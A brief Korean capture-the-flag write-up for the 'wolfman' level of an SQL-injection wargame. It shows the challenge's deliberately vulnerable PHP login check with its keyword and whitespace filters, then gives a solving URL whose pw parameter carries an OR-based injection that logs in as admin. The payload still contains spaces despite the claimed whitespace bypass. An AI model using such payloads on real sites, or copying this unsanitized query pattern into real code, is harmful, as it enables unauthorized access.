

query : select id from prob_wolfman where id='guest' and pw=''
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
스페이스바를 우회하고 id=‘guest’인 조건을 거짓으로 만든 후 id=‘admin’인 조건을 or연산자로 넣어주었다.

https://los.eagle-jump.org/wolfman_f~7.php?pw='or'a'='b' or id='admin